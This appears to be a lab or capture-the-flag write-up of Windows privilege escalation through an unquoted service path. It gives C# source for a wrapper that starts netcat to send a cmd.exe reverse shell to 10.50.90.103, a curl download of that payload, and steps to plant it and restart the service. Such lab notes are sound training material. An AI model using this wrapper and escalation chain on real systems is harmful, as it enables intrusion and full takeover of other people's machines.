 ## Enumeration 

whoami/priv
![[Screenshot 2021-05-01 at 2.37.33 PM.png]]

whoami/groups
![[Screenshot 2021-05-01 at 2.37.51 PM.png]]

`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`

![[Screenshot 2021-05-01 at 2.45.30 PM.png]]


checking the access, and we have full access it a case of Unquoted service path vulnerabilities 
`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`

![[Screenshot 2021-05-01 at 2.53.34 PM.png]]

## Exploit 

we will write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system).

install `sudo apt install mono-devel`

Wrapper.cs

```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            //Our code will go here!
			Process proc = new Process();
			ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-sp00f.exe", "10.50.90.103 443 -e cmd.exe");
			procInfo.CreateNoWindow = true;
			proc.StartInfo = procInfo;
			proc.Start();
        }
    }
}

```

and compile using `mcs Wrapper.cs`

![[Screenshot 2021-05-01 at 3.08.47 PM.png]]

upload the Wrapper.exe to `%TEMP%`

`curl http://10.50.90.103/Wrapper.exe -o %TEMP%\wrapper-sp00f.exe`

`cd C:\Users\Thomas\AppData\Local\Temp\`

`wrapper-sp00f.exe`

and we got the shell as thomas, go the user level access
![[Screenshot 2021-05-01 at 3.28.32 PM.png]]

![[Screenshot 2021-05-01 at 3.29.07 PM.png]]

### exploiting Unquoted service path vulnerabilities

here we are exploiting the vulnerability in the unquoted path of `C:\Program Files (x86)\System Explorer'` 

so we are going to place the binary to the `C:\Program Files (x86)\System Explorer\` as there only we are having the write permissions 

we will use the same wrapper, the one which we used to get the user Thomas

```powershell
copy %TEMP%\wrapper-sp00f.exe "C:\Program Files (x86)\System Explorer\System.exe"
```

and we have it

![[Screenshot 2021-05-01 at 5.02.28 PM.png]]

so to trigger it we have to restart the service and listen on the port

`sc stop SystemExplorerHelpService`
`sc start SystemExplorerHelpService`

![[Screenshot 2021-05-01 at 5.04.18 PM.png]]

and we got root i.e. `nt authority`
![[Screenshot 2021-05-01 at 5.04.30 PM.png]]

